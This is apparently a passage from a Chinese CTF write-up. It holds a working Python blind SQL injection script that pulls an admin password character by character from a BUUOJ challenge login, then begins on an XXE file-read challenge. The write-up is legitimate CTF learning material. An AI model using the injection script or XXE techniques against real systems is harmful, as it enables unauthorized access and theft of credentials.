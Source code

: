 ```
import requests
url = "http://14829c94-fa8f-4174-8c65-8a1a71991ba1.node3.buuoj.cn/"

data = {"username":"admin\\","password":""}
result = ""
i = 0

while( True ):
	i = i + 1 
	head=32
	tail=127

	while( head < tail ):
		mid = (head + tail) >> 1

		payload = "or ascii(substr(password,%d,1))>%d#"%(i,mid)

		data['password'] = payload
		r = requests.post(url,data=data)

		if "stronger" in r.text :
			head = mid + 1
		else:
			tail = mid

	last = result

	if head!=32:
		result += chr(head)
	else:
		break
	print(result) 
```

### 2、[NCTF2019]Fake XML cookbook

*   开始以为是sql注入。一顿测试毫无反应。 查看源码，也没有独特的东西，扫一下也啥都没有。开始既结束。

*   然后看wp，没接触过的`XML实体注入`。有两个介绍文章[从XML相关一步一步到XXE漏洞](https://xz.aliyun.com/t/6887#toc-5)和[浅谈XML实体注入漏洞](https://www.freebuf.com/vuls/175451.html)

*   首先第一次接触到XXE漏洞的题，大概看下来，明白这是什么？了解了XML语言类型。及它的利用方式。大概就是依靠外部实体可支持http、file等协议来完成一些操作。

*   而这题的利用方式就是最简单的利用`参数实体+外部实体`来实现文件读取。

*   先抓包看回显，发现我们输入的用户名会有输出。而形式就是获取我们传入的xml文本。
    ![在这里插入图片描述](img/82ae152cd91709cb18ee925d1c89eb95.png)
